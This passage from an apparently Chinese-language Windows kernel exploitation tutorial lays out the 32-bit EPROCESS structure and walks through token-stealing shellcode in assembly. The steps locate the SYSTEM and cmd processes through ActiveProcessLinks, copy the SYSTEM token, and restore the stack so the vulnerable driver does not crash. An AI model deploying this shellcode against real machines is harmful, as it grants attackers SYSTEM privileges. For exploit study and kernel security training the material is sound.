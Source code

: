 ```C
   +0x0b4 UniqueProcessId  : Ptr32 Void
   +0x0b8 ActiveProcessLinks : _LIST_ENTRY
   +0x0c0 ProcessQuotaUsage : [2] Uint4B
   +0x0c8 ProcessQuotaPeak : [2] Uint4B
   +0x0d0 CommitCharge     : Uint4B
   +0x0d4 QuotaBlock       : Ptr32 _EPROCESS_QUOTA_BLOCK
   +0x0d8 CpuQuotaBlock    : Ptr32 _PS_CPU_QUOTA_BLOCK
   +0x0dc PeakVirtualSize  : Uint4B
   +0x0e0 VirtualSize      : Uint4B
   +0x0e4 SessionProcessLinks : _LIST_ENTRY
   +0x0ec DebugPort        : Ptr32 Void
   +0x0f0 ExceptionPortData : Ptr32 Void
   +0x0f0 ExceptionPortValue : Uint4B
   +0x0f0 ExceptionPortState : Pos 0, 3 Bits
   +0x0f4 ObjectTable      : Ptr32 _HANDLE_TABLE
   +0x0f8 Token            : _EX_FAST_REF
   +0x0fc WorkingSetPage   : Uint4B
   ...
```
这个结构体中需要关注的字段有三个，一个是`UniqueProcessId`，表示的是当前进程`ID`，即我们在任务管理器里面看到的进程号，我们要寻找的`system`的进程号是`4`。第二个是`Token`字段，我们所要做的即是将`system`的`token`拷贝至`cmd`的`token`字段中。最后一个是`ActiveProcessLinks`，这是一个双向链表，指向下一个进程的`ActiveProcessLinks`结构体处，通过这个链表我们可以遍历所有进程，以寻找我们需要的进程。

有了以上信息后，我们可以将shellcode的过程总结如下：
1. 获取`KTHREAD`以及`EPROCESS`指针
2. 遍历`ActiveProcessLinks`寻找`UniqueProcessId`为启动`cmd` id的`EPROCESS`结构体
3. 遍历`ActiveProcessLinks`寻找`UniqueProcessId`为4（`system`）的`EPROCESS`结构体
4. 拷贝`system`的`token`给`cmd`
5. 恢复驱动运行
代码如下
第一步，获取`KTHREAD`以及`EPROCESS`指针
```C
   mov eax, fs:[KTHREAD_OFFSET]
   mov eax, [eax + EPROCESS_OFFSET]
```
第二步，遍历`ActiveProcessLinks`寻找`UniqueProcessId`为启动`cmd` id的`EPROCESS`结构体
```C
   mov ecx, eax (Current _EPROCESS structure)
   mov ebx, [eax + TOKEN_OFFSET]
find_cmd_process
   mov edx,pid(CMD)
   mov ecx, [ecx + FLINK_OFFSET]
   sub ecx, FLINK_OFFSET           
   cmp [ecx + PID_OFFSET], edx     
   jnz find_cmd_process
```
第三步，遍历`ActiveProcessLinks`寻找`UniqueProcessId`为4（`system`）的`EPROCESS`结构体
```C
find_system_process
   mov edx, 4 (SYSTEM PID)
   mov eax, [eax + FLINK_OFFSET] 
   sub eax, FLINK_OFFSET          
   cmp [eax + PID_OFFSET], edx    
   jnz find_system_process
```
第四步，拷贝`system`的`token`给`cmd`
```C
;Copy System PID token
   mov edx, [eax + TOKEN_OFFSET]
   mov [ecx + TOKEN_OFFSET], edx
```
第五步，恢复驱动运行，在用户态中，在实现攻击目的后，一般我们可以不用管该程序能否正常运行，因为程序异常只是退出，不会影响整个系统的正常运行。但是在内核态中，如果我们在获取`toke`以后就不管了，该驱动仍然会运行错误，导致整个系统崩溃从而无法达到攻击目的，所以需要恢复该驱动的正常运行。我们可以往栈下方寻找，看到可以恢复到`IrpDeviceIoCtlHandler`中，即可让驱动正常运行。
```C
   add esp, 0x14
```